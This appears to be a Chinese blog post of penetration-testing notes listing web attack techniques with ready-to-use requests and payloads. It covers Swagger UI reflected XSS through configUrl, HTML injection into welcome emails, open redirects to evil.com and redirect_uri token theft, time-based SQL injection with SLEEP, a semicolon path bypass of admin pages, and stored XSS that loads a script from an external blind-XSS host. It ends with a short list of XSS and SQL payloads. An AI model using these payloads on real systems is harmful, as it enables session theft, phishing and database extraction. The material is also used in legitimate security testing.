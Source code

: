 ﻿![在这里插入图片描述](https://img-blog.csdnimg.cn/f0996e3483b84507aafbb0c39c9c21a2.png)
# Swagger UI反射XSS
Swagger UI是目前最流行的RestFul接口API文档和测试工具。
首先写一个 json的 XSS
```
https://gist.githubusercontent.com/ramkrivas/c47c4a49bea5f3ff99a9e6229298a6ba/raw/e2e610ea302541a37604c7df8bcaebdcb109b3ba/xsstest.json
```
回到Swagger UI，添加查询参数“configUrl”并传递上面的 url
```
https://test/swagger/indext.html?configUrl=https://gist.githubusercontent.com/ramkrivas/c47c4a49bea5f3ff99a9e6229298a6ba/raw/e2e610ea302541a37604c7df8bcaebdcb109b3ba/xsstest.json
```
其他类似功能的接口也能测试
# 发送电子邮件的HTML注入
在大多数网站上，成功注册后，应用程序会触发一封欢迎电子邮件给用户，我们可以拦截包来将HTML注入嵌入到电子邮件中
```
 POST /dbconnections/signup HTTP/2
 Host: test
 Content-Type: application/json
 Accept: */*
 Accept-Language: en-us
 Accept-Encoding: gzip, deflate
 Origin: https://auth.yourdomain.com
 Content-Length: 628
 User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.1.1 Safari/605.1.15

{"email":"hacker123@gmail.com",
"password":"hackers@123*",
"user_metadata":{"given_name":"<s>John${{4*4}}","family_name":"Doe",
"locale_code":"\"><s><h1>HEHEHAHAHA</h1><br>\"><a href=//google.com>",
"LocaleId":"1"}}
```
通常 UI 不允许用户输入特殊字符来命名输入。将 locale_code 参数更改为
```
XSS \”><s><h1>your my loved victim HEHEHEHA</h1><br>\”><a href=//google.com >
 ```

此漏洞的影响可能很大，攻击者会将他们重定向到欺诈站点（网络钓鱼等）
# 开放重定向攻击
开放重定向攻击（Open Redirect Attack）是一种网络攻击，利用存在于 Web 应用程序中的漏洞来将用户重定向到恶意的站点。开放重定向攻击通常是通过修改 Web 应用程序中的跳转 URL 参数来实现的，攻击者可以将跳转地址指向恶意站点，从而欺骗用户进入恶意站点，造成信息泄露、钓鱼等安全问题。

假设有一个网站www.example.com，它有一个登录页面**login.php**，在登录成功后，用户将被重定向到一个名为**redirect.php**的页面。
例如，攻击者可以使用以下URL：
```
https://www.example.com/login.php?redirect=https://www.evil.com
```
当用户单击此链接时，他们将被带到**login.php**页面，然后被重定向到**https://www.evil.com**，这可能是一个钓鱼网站或一个安装恶意软件的网站。
攻击者可能会利用此攻击，让用户泄露敏感信息，如登录凭据或其他机密信息

还可以盗取cookie
比如说，有些web网站会在用户登录后，用户会重定向到特定 url 以进行令牌交换
```
https://test/openid-connect/auth? 
   client_id=authorization_code_flow 
   &redirect_uri=http://test.net 
   &state=00350ec61-f32b-4ffa-9892-711521ddf152b 
   &response_mode=fragment 
   &response_type=code&scope=openid&nonce=60824a30-489-4819-9af-db8284fcd029
```
攻击者可以将redirect_uri参数替换成受害者的参数

# 对应用程序表SQL注入攻击
攻击者可以使用 SQL 注入绕过 Web 应用程序的身份验证和授权机制并检索整个数据库的内容
```
GET : / test / admin.php?action = get - achievements & total_only = true 
 & user_id = 11 % 20 AND % 20 ( SELECT % 209628 % 20 FROM % 20 ( SELECT (SLEEP( 15 )))WOrh) --%20KUsb
 HTTP / 2
```
在上面的 url 中，攻击者用SQL sleep命令替换了user_id参数，如果攻击成功，那么上述 GET 端点的响应需要 15 秒

# 对管理目录的路径遍历攻击
假如一个网站的后台url是这样的
```
https://test/auth/admin/master/console/config
```
如果没有登录就访问，多半是403，我们可以在/admin之后添加分号 ;
```
https://test/auth/admin;/master/console/config
```
如果能访问，就说明这个url容易受到路径遍历攻击
也可以配合burp来绕过
```
X-Custom-IP-Authorization: 127.0.0.1
```
```
https://portswigger.net/burp/documentation/desktop/tutorials/using-match-and-replace
```

# POST请求存储型XSS
在下面的示例中，我们向用户身份验证的API发出 POST 请求，并使用 XSS 存储用户信息
```
POST /api/Authentication/AuthenticateUser HTTP/2
Host: test
Content-Type: application/json; charset=utf-8
Cookie: ASP.NET_SessionId=25jqpkfplyfwwgkt5hxqhjtu; Guid=bc5308-e597-4145-a62b-81523236f9dd
Content-Length: 263

{ 
  "UserName":"username",
"P  assword":"password",
"Device":"PC'\"><script src=https://ls.bxss.in/>.techlabcorp.local"
}
```
下次用户登录应用程序时，XSS就会在应用程序中执行

# 一些payload
xss：
```
"><img src=x onerror=alert(1)>
```
sql:
```
)if(1=1,sleep(10),0)(/*')XOR(if(1=1,sleep(10),0))OR('")XOR(if(1=1,sleep(10),0))OR("*/
```
持续总结中


